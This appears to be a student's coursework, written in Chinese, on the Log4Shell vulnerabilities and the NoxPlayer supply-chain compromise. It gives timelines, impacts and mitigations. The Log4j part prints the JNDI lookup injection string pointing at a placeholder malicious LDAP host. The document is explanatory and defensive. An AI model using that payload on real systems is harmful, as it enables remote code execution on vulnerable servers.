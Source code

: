 # assignments
# 期末作業
Apache Log4j漏洞
班級：資財三乙 學號：108AB0704 姓名：劉筑芸
事件流程：
2021/11/24
Log4Shell 漏洞 (CVE-2021-44228)經由私下管道通報給Apache
2021/12/09 
發布的 Log4j 2.15.0 版當中已經修補。

Apache Log4j2 安全補丁更新過程：
2021/12/11
發布2.15.0版本，對JNDI 查詢功能進行限制。但此版本的修復不完整，導致了第二個 Log4j 漏洞漏洞CVE-2021-45046。
2021/12/13
發布2.16.0 版本，為了解決 CVE-2021-45046 漏洞， Log4j 2.16.0 直接禁用了 JDNI 功能。

攻擊手法：
駭客可利用此功能來發送 HTTP 請求到某個網站伺服器，這樣就會促使查詢 (lookup) 功能去駭客掌控的 LDAP 伺服器下載並執行某個惡意的 Java 類別。最簡單的作法，駭客只需在記錄檔內加入以下這道表達式：

${jndi:ldap://{malicious website}/a}
這樣就可以執行位於  http://{malicious website}/{malicious.class} 的惡意 Java 程式碼

駭客會在含有前述漏洞的伺服器上植入 Mirai 殭屍網路變種和 Kinsing 挖礦程式。有些駭客使用的網址相當簡單，但也有些駭客會使用加密編碼的表達式來隱藏網路流量。
攻擊流程：
 
漏洞項目：
	CVE-2021-44228 遠程控制漏洞（RCE）影響從 2.0-beta9 到 2.14.1 的 Log4j 版本。受影響的 Log4j 版本包含 Java 命名和目錄接口 (JNDI) 功能，可以執行如消息查找替換等操作，攻擊者可以通過向易受攻擊的系統提交特製的請求，從而完全控制系統，遠程執行任意代碼，然後進行竊取信息、啟動勒索軟體或其他惡意活動。
	CVE-2021-45046（Log4j 2.15.0 未完整修復的漏洞）
Apache Log4j 2.15.0 中針對 CVE-2021-44228 的修復在某些非默認配置中不完整。當日誌配置使用非默認模式布局和上下文查找（例如，$${ctx:loginId}）或線程上下文映射模式（ %X、%mdc 或 %MDC）使用 JNDI 查找模式製作惡意輸入數據，從而導致拒絕服務 (DOS) 攻擊。默認情況下，Log4j 2.15.0 盡最大努力將 JNDI LDAP 查找限制為 localhost。Log4j 2.16.0 通過刪除對消息查找模式的支持和默認禁用 JNDI 功能來修復此問題。
	CVE-2021-4104（Log4j 1.2 版本問題）
當攻擊者對 Log4j 配置具有寫訪問權限時，Log4j 1.2 中的 JMSAppender 容易受到不可信數據的反序列化。攻擊者可以提供 TopicBindingName ,TopicConnectionFactoryBindingName 配置，導致 JMSAppender 以類似於 CVE-2021-44228 的方式執行 JNDI 請求，從而導致遠程代碼執行。JMSAppender 不是 Log4j 的默認配置，因此此漏洞僅在特別配置為 JMSAppender 時才會影響 Log4j 1.2。事實上 Apache Log4j 1.2 已於 2015 年 8 月終止生命周期。用戶應該升級到Log4j 2，因為它解決了以前版本的許多其他問題。

事件影響：
目前我們看到歹徒所下載的惡意程式是 Mirai 殭屍網路和 Kinsing 挖礦程式，可能造成的影響包括：
● 資源遭到挾持，挖礦程式會占用資源來進行虛擬加密貨幣挖礦。Mirai 則會將受害系統變成殭屍網路的一員，用來從事惡意活動。
● 式阻斷服務 (DDoS) 攻擊或散發垃圾郵件。
● 阻斷服務攻擊 (DoS)，Mirai 可在攻擊行動當中利用受害系統來發動 DDoS/DoS 攻擊。

修補及防範：
雖然網路上目前流行的攻擊大多經由 HTTP 通訊協定，但此漏洞也可經由所有 Log4j 支援的通訊協定來發動。因此我們建議所有使用者都更新至 Log4j 2.15.0 版。此外，在漏洞修補之前，使用者還可透過以下步驟來防範此漏洞：
● 針對 log4j 版本 >=2.10 的系統：請將系統屬性「log4j2.formatMsgNoLookups」設定為「true」。
● 針對 log4j 版本 >=2.10 的系統：請將環境變數「LOG4J_FORMAT_MSG_NO_LOOKUPS」設定為「true」。
● 針對 log4j 版本為 2.0-beta9 到 2.10.0 的系統：
請將 JndiLookup.class 從類別路徑 (class path) 當中移除：zip -q -d log4j-core-*.jar
org/apache/logging/log4j/core/lookup/JndiLookup.class.
另一個建議作法是限制出口流量只能經由必要的連接埠至連上網際網路

# 期中作業
供應鏈攻擊 — NoxPlayer模擬器
班級：資財三乙 姓名：劉筑芸 學號：108AB0704
攻擊事件流程：
	2020/09 駭客滲透了NoxPlayer的更新機制
	2021/01/25 資安業者ESET，發現Android遊戲模擬器NoxPlayer的更新機制被植入惡意程式。
遭攻擊項目：
操縱兩個文件：主BigNox二進位文件Nox.exe和下載更新本身的NoxPack.exe。BigNox基礎設施(res06.bignox.com)被入侵以託管惡意軟體，同時也表明他們的HTTP API基礎設施(api.bignox.com)可能已經被入侵，在某些情況下，BigNox更新器從攻擊者控制的伺服器下載了額外的有效載荷，這表明，BigNox API回覆中提供的URL欄位被攻擊者篡改了。
攻擊手法：
1.	在啟動時，Nox.exe會向一個編程接口發送請求，查詢更新信息。BigNox API伺服器會響應更新信息，包括合法更新的URL。ESET推測，合法的更新可能已經被惡意軟體取代，或者引入了新的文件名或URL
2.	惡意軟體被安裝在目標機器上，惡意文件沒有像合法更新那樣進行數字簽名，這說明BigNox軟體構建系統並沒有被入侵，只有提供更新的系統被入侵，惡意軟體會對目標計算機進行有限的偵察。
3.	BigNox API伺服器向特定目標響應更新信息，這些信息指向攻擊者控制的伺服器上的惡意更新位置。
4.	合法的BigNox基礎設施正在為特定的更新提供惡意軟體。觀察到，這些惡意更新只在2020年9月進行。在安裝了NoxPlayer的10萬多名用戶中，只有5人收到了惡意更新。這些數字凸顯了攻擊的針對性。
攻擊事件善後：
僅使用 HTTPS 交付軟件更新，以最小化域劫持和中間人（MitM）攻擊的風險，使用 MD5 哈希和文件簽名檢查實現文件完整性驗證，採取其他措施，特別是對敏感數據進行加密，以避免暴露用戶的個人訊息。
BigNox 同時亦更新了 NoxPlayer 版本，新版本將會檢查以前安裝的 Nox Player 應用程序文件是否完整及存在風險。

